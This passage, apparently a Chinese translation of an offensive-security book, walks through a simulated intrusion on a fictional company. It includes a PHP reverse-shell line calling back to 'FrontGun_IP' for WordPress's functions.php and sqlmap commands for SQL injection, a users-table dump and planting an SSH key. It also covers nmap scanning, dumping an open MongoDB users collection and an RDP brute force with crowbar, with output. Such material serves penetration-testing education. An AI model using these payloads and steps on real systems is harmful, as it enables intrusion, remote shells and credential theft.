显然，管理CMS需要一个管理面板；对于WordPress，可以通过`info.sph-assets.com/wp-admin`访问这个面板: 

让我们试试之前的帐户: 

好哇！我们能把我们的shellcode放进去吗？好吧，在WordPress上我们不能直接上传PHP文件，甚至不能从头开始创建。我们首先需要安装一个名为“insert\_php”的插件，或者编辑主题文件（“functions.php”）来插入我们的php代码片段，这些代码片段将调用反向shell。

添加到“functions.PHP”的PHP代码可以如下所示:

```text
$sock=fsockopen("FrontGun_IP",443);exec("/bin/sh <&3 >&3 2>&3");
```

#### 4、catalog.sph-assets.com

最后一个网站似乎是SPH向其客户提供产品的主机。我们可以通过简单的ID以浏览产品列表，如下所示: 

我们可以推断，可能正在向后端服务器（最有可能是数据库）发出请求，以便根据提供的ID（上述请求中的13）获取产品。我们尝试通过注入特殊字符（引号、双引号等）进行进一步的探索，但没有什么有趣的结果：服务器用同样令人失望的空白页进行响应。

但是，如果我们用“14-1”替换13，例如，我们会得到产品13。很有趣。这可能意味着我们的算术运算实际上是由后端系统执行的。为了确认我们尝试再次使用“product/13+1”和“product/（select 14）”。 

很好！我们很可能是碰到了代码注入的情况。特别是SQL注入，因为我们之前的“select”语句也被正确地解释了。这意味着我们可以诱使数据库执行附加到请求末尾的SQL代码。当然，代码既要有效，又要尊重一些语法和结构规则，但我们不必太担心它。

事实上，我们将依赖于臭名昭著的“sqlmap”工具来完成繁重的工作，并让我们可以进行下一步的攻击。这个工具将准备必要的SQL代码来列出表并获取列、数据等，但是不要马上兴奋起来。这个网站似乎只提供公共信息。我们不会这么容易得到宝贵的客户数据。

那么SQL注入有什么用呢？在我们的场景中，我们感兴趣的是能够在机器上执行系统代码。这几乎完全取决于安装的数据库软件:

* 如果发出命令的帐户具有管理员权限，则Microsoft SQL Server提供了使用xp\_cmdshell在系统上执行代码的本机函数。
* MySQL和Oracle只提供了将文件写入他们有权访问的目录的功能。一个有趣的场景是将后门写入web目录，甚至将SSH密钥写入主文件夹。

为了确定数据库软件，我们使用以下选项启动“sqlmap”:

```text
FrontGun$ sqlmap -u catalog.sph- assets.com/product/14* --banner
```


> 提示：由于没有容易识别的参数，我们在易受攻击的参数前面放置了一个星号（\*）来指导sqlmap。

我们似乎要面对一个MySQL数据库。尽管以web目录和主文件夹为目标仍然是一个可行的选择，但让我们先看看其中的内容。 我们使用以下命令列出所有数据库及其表:

```text
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* --tables
```



表是典型的Drupal CMS——我们可以通过查看网页的HTML代码轻松确认信息。 根据Drupal 8官方网站，用户和密码数据存储在“users\_field\_data”表中:

```text
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* -T users_field_data --dump
```


密码是在数据库中散列的，所以我们需要使用“John the Ripper”这样的工具来破解密码。John the Ripper基本上会检查单词词典（单词列表），看看哪一个匹配每个给定的散列。然而，计算散列需要计算时间，并且可能需要相当多的资源，特别是在测试数十亿种可能性时。

我们也可以尝试公开的破解数据库来正确地处理这个任务。如果你能接受挑战，你可以按照本教程的要求，以合理的预算建造一台可靠的破解机。

不幸的是，Drupal的散列是加盐的（密码前面有一个随机字符串），这使得破解它们非常耗时。即使在John the Ripper破解数小时后，我们也无法取得积极的结果。看起来密码很强。我们唯一的另一个选择是植入SSH密钥。

首先，我们通过以下三个简单的步骤生成一对SSH密钥: 

然后调用sqlmap的受信任选项--file-write将公钥（id\_rsa.pub）写入以下目录: /home/mysql/.ssh/authorized\_keys。

但是，要记住的一个限制是MySQL不能覆盖文件。所以我们祈祷，希望目标目录中没有名为“authorized\_keys”的文件:

```text
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* --file-write=/root/.ssh/id_rsa.pub -–file-destination=/home/mysql/.ssh/
```

很好！我们尝试使用相应的私钥连接到服务器:

```text
FrontGun$ ssh -i /home/.ssh/id_rsa.priv  mysql@catalog.sph-assets.com
```



很好！我们已经有效地将SQL注入到远程交互访问中！的确，我们在这台机器上的权限仍然有限，但这只是时间问题。

### 2.2.3.杂项服务

在前几章中，我们主要关注web应用程序，以突出访问Bluebox网络时最常见的漏洞。不过，要记住的一点是，互联网远不止人们所说的网络。除了网站，还有很多其他有趣的东西。

要找到这些其他服务，我们将使用端口扫描工具，如nmap或masscan。

> 端口扫描:
>
> > 讨论TCP/IP端口、服务等的一个小题外话：internet是一组连接在一起的系统。每个系统可以承载不同的应用程序：web应用程序（例如网站）、远程控制系统的管理应用程序（SSH或RDP\[47\]）、数据库（MySQL、SQL Server）等。
> >
> > 需要由远程系统寻址的每个应用程序都被分配到系统上可用的65535之外的端口。例如，系统将监视所有传入的请求，一旦看到提到端口80的请求，它将把请求路由到侦听该端口的应用程序，该端口通常是一个网站。 现在，为了发现系统中存在哪些应用程序，我们只需向每个可用端口发送一个hello请求（SYN packet），并查看哪些端口响应。这是端口扫描器背后的主要思想。如果我们收到一个“hello back”（ACK包），我们就知道有一个服务正在监听那个端口。然后，该工具可能会发送其他请求以获取更多信息：产品名称、版本等。
> >
> > 像nmap这样的工具走得更远。他们可以猜测系统的操作系统，尝试一些基本的暴力攻击等。查看完整的nmap文档了解更多信息。

互联网访问很频繁。每一分钟，我们星球上的某个人都在扫描IP范围。在探测公共服务器时，我们不需要特别隐蔽。简单的TCP扫描就可以了:

```text
FrontGun$ nmap -p-    -A    172.31.19.0/25    -oA external_range
>>>  "-p –"选项以所有端口为目标
>>>  "-A"选项针对每个打开的端口启动所有nmap的附加脚本。
>>>  "-oA"选项将结果保存到三个文件：xml、nmap和gnmap。
提示：如果您想轻松格式化nmap的输出，请查看脚本nmaptocsv (https://github.com/maaaaz/nmaptocsv)
```

屏幕上弹出十几个服务。有些是管理服务，如SSH和RDP，可用于远程连接到具有有效凭据的计算机。其他是典型的web端口（80和443）。

然而，有一个端口很突出：27019。有一个很好的理由：它是MongoDB使用的默认端口，MongoDB是一个非关系型数据库，它存储文档并对文档进行索引，而不需要任何集合结构（不像关系型或经典型数据库需要表、列和字段等）。

不过，有趣的是，默认情况下，MongoDB不需要任何身份验证。如果有人有一个（伟大的）想法，在没有最低限度的安全优化的情况下在互联网上公开它，任何人都可以访问它的内容。全球互联网搜索引擎Shodan上的一个快速搜索给出了暴露的MongoDB的数量（不受限制）。 

所以我们连接到这个数据库，希望能得到一些信息，帮助我们进入Bluebox的网络。

```text
FrontGun$ mongo MongoDB_IP
>show dbs
admin        0.000GB 
local    0.001GB 
stats_db 0.0210GB
```

我们使用以下命令列出“stats\_db”数据库的集合（相当于表）:

```text
>    use stats_db
>    show collections
fav 
final 
graphs 
points 
statsD 
statsM 
statsY 
users
```

“用户”集合显然是一个重要的目标:

```text
>    db.users.find({})
{ "_id" : ObjectId("5852f4029c12654f92094f1e"), "login"    :    "admin","pass","415847a30cb264ffa270c40e979f9c6d", "admin", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f1f"), "login"    :    "stats",    "pass"    : "d106b29303767527fc11214f1b325fb6", "role" : "stats", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f20"),"login"    :    "backup",    "pass"    : "2c3bcecc4a6bcfebcbfbaa5dd3d6159d", "role" : "stats", "read_priv" : "Y" }
```

答对 了！似乎我们有用户帐户和密码来访问一些未知的应用程序。我们可以再次尝试使用John the Ripper破解散列，但在Google上快速搜索管理员的散列显示，对应的密码实际上是：“Slash！’。

如果我们回到nmap结果，我们会看到MongoDB机器上的端口3389是公开的。此服务允许使用Windows上的mstsc或Linux上的rdesktop等工具远程访问Windows计算机。让我们重新使用刚才检索到的密码: 

够近了！虽然它没有立即工作，密码” Slash!”让我们对管理员如何选择密码有了宝贵的了解。我们可以建立一个基于相同格式的候选词列表，然后在远程机器上尝试每一个候选词，直到我们击中！

暴力攻击当然可能触发警报，甚至暂时锁定帐户，因此在这种情况下，我们将避免它，因为我们已经拥有这么多机器。不过，我还是会详细说明执行步骤，以防万一。

首先，我们根据前面得到的密码手动生成一个关键字库:

```text
slash 
paul 
slashPaul 
slash! 
slash$ 
slash* 
paul! 
holdings 
holding 
slashPaul 
slashpaul
slashslash
```

然后我们使用John The Ripper对这些关键字应用多种变体（添加数字、特殊字符、大写的第一个字符等）

```text
FrontGun$ john --wordlist=pass.txt --rules –stdout > pass_file.txt

slashslash2 slash! paul! slashpaul! holdings! holding! slashpaul! slashslash! slash3 paul3 slashpaul3 holdings3 holding3 slashpaul3 slashslash3 slash7 paul7 slashpaul7 […]
```

现在我们将这个新构建的列表提供给一个执行RDP暴力破解的工具：Patator、THC Hydra、Crowbar等:

```text
FrontGun$    python    crowbar.py    -b    rdp    -s 172.31.19.22/32 -u administrator -C pass_file.txt

2017-01-15 12:10:14 START
2017-01-15 12:10:14 Crowbar v0.3.5-dev
2017-01-15 12:10:14 Trying 192.168.1.52:3389
2017-01-15 12:10:30 RDP-SUCCESS:172.31.19.22:3389 - administrator:Slashpaul!
2017-01-15 12:10:38 STOP
```

此时我们几乎可以确定我们在Bluebox网络中拥有一台机器。这意味着我们可以开始考虑攻击内部网络的方法。

不过，我们不要着急。我们仍然在Bluebox（公共DMZ）中，我们需要解决一些基本问题，比如：我们在哪台机器上？我们有什么特权？这个网段还有哪些重要的服务器？这就是它特别有趣的地方！

> 翻译：Ryan 2019/8/16

